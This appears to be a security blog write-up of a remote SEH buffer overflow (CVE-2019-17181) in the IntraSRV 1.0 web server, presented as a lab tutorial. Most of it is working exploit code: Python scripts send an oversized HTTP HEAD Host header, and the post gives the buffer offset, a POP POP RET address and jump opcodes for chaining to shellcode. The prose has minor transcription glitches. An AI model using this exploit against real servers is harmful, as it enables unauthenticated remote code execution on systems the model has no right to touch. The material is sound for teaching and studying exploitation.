 ```yaml
---
layout: single
title: Remote SEH overflow with multi-staged jumps - CVE-2019-17181 from IntraSRV 
---
```


Sending a unauthenticated and malicious HTTP HEAD request to the application results in a SEH based buffer overflow. This exploit utilizes a short JMP which hits a long JMP back 450 bytes which then hits a standard calculator shellcode payload

## IntraSRV webserver 1.0 SEH overflow writeup

```
# Exploit Title: IntraSRV webserver 1.0 SEH overflow writeup
# Date: 10/10/2019
# Exploit Author: x00pwn
# Vendor Homepage: http://www.leighb.com
# Software Link: http://www.leighb.com/intrasrv.htm
# Version: 1.0	
# Tested on: Windows 7
# CVE : CVE-2019-17181
```

## Introduction

This post covers the exploitation of a remote s c h buffer overflow vulnerability in the intrasrv  web server application, the web server application includes this vulnerability when processing HTTP head requests. 

We can start by running the vulnerable application, and attaching it to immunity debugger.

![remotedjmps1.png](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/remoteseh-d-jmp/remotedjmps1.png)

With our python exploit script, we can start by using a socket connection to send a HTTP request on port 80 to the vulnerable application.  By including a large buffer of A’s,  we can witness the vulnerability taking place via the application crashing, and we see that it is now in a stopped state within our debugger.

```python
#!/usr/bin/python

import socket
from struct import *

victim_host = "10.0.0.161"
victim_port = 80

exploit_payload = "A" * 4000

http_request  = "HEAD / HTTP/1.1\r\n"
http_request += "Host:" + exploit_payload + "\r\n"
http_request += "User-Agent: firefox \r\n"
http_request += "If-Modified-Since: Wed \r\n\r\n"

expl = socket.socket (socket.AF_INET, socket.SOCK_STREAM)

try:
	print("[*] Intrasrv webserver 1.0 SEH overflow POC\n")
	expl.connect((victim_host, victim_port))
	print("[*] Establishing a connection to the vicitm")
	expl.send(http_request)
	print("[*] Sending the payload")
	expl.close()
except:
	print("[!] Exploit failed to send")
```

![remotedjmps2.png](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/remoteseh-d-jmp/remotedjmps2.png)

## Calculate the buffer, find POPPOPRET

Now that we know that the application is vulnerable, we need to conduct the stage of exploitation where we calculate the input buffer size, this can be done with the pattern_create  tool from Metasploit

```
└─▪ ./pattern_create.rb -l 4000
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7.... and more...

```

Adding this unique string to our request  shows us that the Structured Exception Handler and NSEH has been overwritten with a part of the unique string.

![remotedjmps3.png](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/remoteseh-d-jmp/remotedjmps3.png)

Now we need to use the mona.py  extension command !mona findmsp  to calculate the size of the input buffer, based on our uniquely generated string that we gave to the application.

![remotedjmps4.png](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/remoteseh-d-jmp/remotedjmps4.png)

Now we know it only takes 1553 bytes to fill up the input buffer, the next 4 bytes after this will overwrite the SEH handler, and 4 more bytes will overwrite the NSEH handler in the chain also.

Let's now take over the SEH and NSEH handlers with this new knowledge.

```python
#!/usr/bin/python

import socket
from struct import *

victim_host = "10.0.0.161"
victim_port = 80

exploit_payload = "A" * 1553
exploit_payload += "B" * 4
exploit_payload += "C" * 4
exploit_payload += "D" * (2000 - len(exploit_payload))

http_request  = "HEAD / HTTP/1.1\r\n"
http_request += "Host:" + exploit_payload + "\r\n"
http_request += "User-Agent: firefox \r\n"
http_request += "If-Modified-Since: Wed \r\n\r\n"

expl = socket.socket (socket.AF_INET, socket.SOCK_STREAM)

try:
	print("[*] Intrasrv webserver 1.0 SEH overflow POC\n")
	expl.connect((victim_host, victim_port))
	print("[*] Establishing a connection to the vicitm")
	expl.send(http_request)
	print("[*] Sending the payload")
	expl.close()
except:
	print("[!] Exploit failed to send")
```

![remotedjmps5.png](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/remoteseh-d-jmp/remotedjmps5.png)

Now we control both the SEH and NSEH handler. Now we want to find a POPPOPRET sequence to escape the SEH chain and get to our shellcode. Use the command `!mona seh -n` to locate POPPOPRETs.

![remotedjmps6.png](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/remoteseh-d-jmp/remotedjmps6.png)

There are none without null bytes, but sometimes this still works even with a partial POPPOPRET, let's try it and see where the POPPOPRET takes us.

```python
exploit_payload = "A" * 1553
exploit_payload += "C" * 4 # nseh_stage1
exploit_payload += seh_handler
exploit_payload += "A" * (4000 - len(exploit_payload))
```
![remotedjmps7.png](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/remoteseh-d-jmp/remotedjmps7.png)

If you view and click to view the SEH handler, you can see that it leads to a memory address with our POPPOPRET sequence, this is great news.

## Implement multiple JMPs

The usage of multi-stage jumps, will allow us as the attacker to escape a restricted buffer space, where we can first utilize a short backwards or forwards jump, that will jump into a long jump, which will then jump way back to allow for enough space to include a shellcode payload. A shellcode payload can easily be 300 to 300 bytes in size, utilizing this multi-stage jump will allow you to jump in a backwards fashion in order to create more space and to escape the restricted buffer that you are now in.

```python
nseh_stage1 = "\x90\x90\xEB\xF6" # JMP back 10 bytes
jmp450_stage2 = "\x90\x90\x90\xE9\x3E\xFE\xFF\xFF" # Have it hit our long jump back 450
seh_handler = pack('<L', 0x004097dd) # our POP POP RETN from intrasrv.exe

# 0x004097dd : pop eax # pop ebp # ret  | startnull {PAGE_EXECUTE_READ} [intrasrv.exe]
# ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\john\Desktop\intrasrv.exe)

exploit_payload = "A" * (1553 - len(shellcode_calc) - 8) + shellcode_calc
exploit_payload += jmp450_stage2
exploit_payload += nseh_stage1
exploit_payload += seh_handler
exploit_payload += "A" * (4000 - len(exploit_payload))
```
Once your short jump has hit the long jump, you can now utilize the shell could malicious payload just as you would with a normal exploitation process. The concept of an egg hunter also allows for escaping restricted buffer spaces.   This is simply an alternative solution to escaping restricted buffer spaces, when in the situation comes out that an egg hunter may not be the proper way to go.

## Obtain a shell

Once everything is finalized, you can now generate your  malicious shellcode payload via msfvenom.  Once you have jumped back far enough, you can now go back to your normal exploitation process.

## Conclusion

Conclusively,  while exploiting this structured exception Handler buffer overflow vulnerability, we came across a situation where we were put into a restricted buffer space, instead of using an egg hunter in order to escape this restricted buffer space,  we  decided to utilize a multi staged jump, in order to jump far enough back in memory to now play to now place our shellcode payload.

